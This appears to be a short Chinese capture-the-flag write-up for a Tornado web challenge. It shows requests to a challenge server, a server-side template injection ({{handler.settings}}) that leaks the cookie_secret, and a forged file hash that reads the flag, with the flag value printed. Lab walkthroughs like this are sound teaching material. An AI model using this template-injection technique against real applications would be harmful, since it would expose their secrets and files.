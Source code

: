 ```
http://111.200.241.244:55572/file?filename=/flag.txt&filehash=b7a504b137e20f372ed87ffb400cccd1

/flag.txt
flag in /fllllllllllllag
```

```
http://111.200.241.244:55572/file?filename=/hints.txt&filehash=3450e1a8e507c183499b1b870cd02947

/hints.txt
md5(cookie_secret+md5(filename))
```

根据提示，需要得到/fllllllllllllag对应的MD5值，需要获得cookie_secret的值。

当输入的filepath的值错误时，会跳转到/error页面：

```
http://111.200.241.244:55572/error?msg=Error

Error

http://111.200.241.244:55572/error?msg={{2}}

2
```

存在模板注入漏洞，题目提示使用Tornado 框架，使用`handler.settings`查看配置信息：

```
http://111.200.241.244:55572/error?msg={{handler.settings}}

//得到cookie_secret
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '64840663-6be8-4f60-9f4e-cd91b60a95eb'}
```

计算/fllllllllllllag对应的MD5值。

```
http://111.200.241.244:55572/file?filename=/fllllllllllllag&filehash=f04f7f780f6deca585729873c3a77bbc

/fllllllllllllag
flag{3f39aea39db345769397ae895edb9c70}
```

得到flag：flag{3f39aea39db345769397ae895edb9c70}

